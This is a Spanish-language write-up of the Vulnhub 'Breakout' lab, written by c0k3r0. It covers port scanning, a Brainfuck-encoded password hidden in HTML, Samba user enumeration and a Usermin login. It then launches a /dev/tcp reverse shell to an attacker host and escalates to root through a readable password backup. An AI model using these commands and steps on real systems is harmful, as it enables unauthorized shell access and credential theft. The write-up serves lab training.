# 🧠 Write-up: Breakout (Vulnhub)

## 🔎 Escaneo de Puertos

Comenzamos con un escaneo de puertos utilizando `nmap`:



```bash
sudo nmap -p- --open -sSCV --min-rate 5000 10.0.2.7 -n -Pn
```

El escaneo revela varios puertos abiertos:

- 80: Apache 2.4.51 (Debian)
- 139, 445: Samba smbd 4.6.2
- 10000, 20000: MiniServ Webmin httpd

---

## 🌐 Enumeración Web

Al acceder al puerto 80, vemos la página por defecto de Apache:



Revisamos el código fuente de la página y encontramos un mensaje escondido:



<!--
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)
++++++++++[>+>+++>+++++++++++>++++++++<<<<-]>>+++++++++++++++++.+++++.>>++++++++++++++++++.----.<+++++++++.-------------.>>-------------.>-------------.+++.<<+.>-.--------.+++++++++++++++.<<++++++++.++++++.
-->

El mensaje parece estar cifrado en Brainfuck, lo que confirmamos en la herramienta dcode.fr:



El resultado descifrado es:

````
.2uqPEfj3DcP`a-3
````

---

## 📝Enumeración Samba

Usamos enum4linux para obtener más información:



````
enum4linux 10.0.2.7
````

Se detecta un usuario interesante:



**cyber**

---

## 📥Acceso Webmin (Usermin)
Visitamos el servicio corriendo en el puerto 20000, el cual es Usermin y probamos las credenciales encontradas:



Usuario: cyber
Contraseña: .2uqPEfj3DcP\a-3`

¡Accedemos con éxito!

---

Dentro de Usermin, encontramos una terminal web que usamos para lanzar una reverse shell:




````
sh -i >& /dev/tcp/10.0.2.15/4444 0>&1
````

En nuestra máquina atacante:



````
sudo nc -lvnp 4444
````

Se establece la reverse shell como el usuario cyber:



---

## 🔍 Escalada de Privilegios

Inspeccionando el sistema, encontramos un archivo sensible en /var/backups/:



Copiamos el archivo .old_pass.bak a nuestra carpeta y lo comprimimos en un .tar:



````
tar -cvf password.tar /var/backups/.old_pass.bak
````

Extraemos el contenido y obtenemos acceso total al archivo como el usuario actual:



````
tar -xf password.tar
````

Leemos el archivo:

````
cat .old_pass.bak
````

Credenciales encontradas:
- Ts&4&YurgtRX(=~h

## 🧙‍♂️ Acceso como root

Intentamos cambiar a root:

````
su root
````



¡Y lo logramos! Somos root.

---

## ✅ Conclusión
- Accedimos mediante una credencial oculta en la fuente HTML cifrada en Brainfuck.
- Escalamos privilegios mediante acceso a backups mal protegidos.
- Obtenemos root con una contraseña antigua almacenada sin protección.

¡Máquina completada con éxito!

---

### Write-up realizado por **c0k3r0** — El Sótano de c0k3r0 �

[⬅️ Volver al inicio](https://c0k3r0.github.io/ctf-writeups/)
